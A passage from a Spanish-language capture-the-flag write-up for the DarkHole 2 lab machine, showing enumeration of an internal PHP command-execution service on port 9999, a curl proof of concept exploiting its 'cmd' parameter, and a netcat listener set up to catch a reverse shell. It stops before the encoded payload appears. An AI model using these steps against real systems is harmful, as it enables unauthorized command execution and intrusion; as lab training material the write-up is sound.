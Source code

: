 > [!tip] ¡Servicio Interno Detectado!
> Gracias a los comandos ejecutados por el usuarios podemos entender que existe un servicio web interno en puerto 9999 con capacidad de ejecución remota de comandos.

Comando para listar puertos en escucha:
```
netstat -tulpn
```
![[darkhole_2.20.png]]
	Confirmación: servicio en **LISTEN** bajo puerto 9999.

Comando para ver procesos:
```
htop
```
![[darkhole_2.21.png]]
	El servicio corre como usuario losy, servidor PHP ubicado en /opt/web.

Comandos para revisar el script PHP:
```
cd /opt/web
cat index.php
```
![[darkhole_2.22.png]]
	Script PHP simple para ejecución remota de comandos vía parámetro cmd.

### Vector de Escalada

Exploración del directorio home:
![[darkhole_2.23.png]]
	Se encontró la flag user.txt en /home/.

#### Explotación del Servicio Interno

Prueba de concepto con curl:
```
curl "http://localhost:9999/?cmd=id"
```
![[darkhole_2.24.png]]
	El comando se ejecuta como usuario losy, confirmando RCE.

#### Reverse Shell como losy

Listener en máquina atacante:
```
nc -lvnp 443
```
![[darkhole_2.25.png]]
	Nos podemos en escucha para recibir la señal que vamos a enviar desde el servicio PHP.

Para mandar el payload lo debemos hacer en formato "URL Encode". Les dejo un ejemplo de como se vería el comando de forma "normal" y "URL Encoded".
